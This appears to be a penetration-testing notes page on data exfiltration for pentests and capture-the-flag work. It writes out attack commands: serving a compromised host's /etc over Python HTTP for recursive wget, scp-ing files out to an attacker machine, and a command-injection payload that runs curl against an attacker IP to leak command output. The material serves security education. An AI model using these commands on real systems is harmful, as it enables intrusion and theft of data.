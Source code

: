 # Data Exfiltration
In this module I will cover methods, applications, and syntax used for data exfiltration techniques that I have used during penetration testing or capture the flag.
## Python SimpleHTTPServer
If Python (2.x) is installed on the target system, you can simply start the [SimpleHTTPServer](https://www.pythonforbeginners.com/modules-in-python/how-to-use-simplehttpserver/) 
using the following command in whatever directory that you wish to share temporarily.
```
www-data@target-system:/etc# python -m SimpleHTTPServer 5432
```
And this will instantly share the files on the target system in `/etc` (as you see that is where I started the service) via HTTP on port `5432`
You can then use `wget` recursivley to pull all files found like so, from the attacker machine,
```
root@attacker-system:~/ctf/target/# wget -r http://(TARGET IP ADDRESS):5432 
```
## Python http.server
In Python 3, `SimpleHTTPServer` was merged with `http.server` and you can perform the same as we did in the previous version listing above with the syntax of,
```
www-data@target-system:~# python -m http.server 5432
```
## SCP (SSH)
If SSH is installed on the target system, we can simply use `scp` to exfiltrate data from the target server onto our attacker machine. First, we need to ensure that SSH is running on the attacker machine to accept the connection and file from the target.
Then, we can use the following syntax to transfer the file,
```
user@target-system:~$ scp -P (PORT OF SSH ON ATTACKER) (FILENAME) \
 (USER ON ATTACKER SYSTEM)@(ATACKER IP ADDRESS):/path/on/attacker/machine.extension
```
## HTTP Logs
If command injection is possible on the target server, but it's not possible to save files anywhere to create a shell (super-unprivileged user), we can use `curl` in combination with an interpolated command output to make an HTTP request to our local HTTP server o the attacker system as so,
```
ping 127.0.0.1;curl http://(ATTACKER IP ADDRESS)?username=$(whoami)
```
Then, in out HTTP logs, we will see the output of `$(whoami)` as the GET request parameter. 
# Data Infiltration
## FTP
You can use FTP for data infiltration on any OS system if you happen to find it installed on a target machine. Check out [/Post Exploitation/ftp.md](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Post%20Exploitation/ftp.md) for more information on how to infiltrate data and binaries to a target system using FTP.
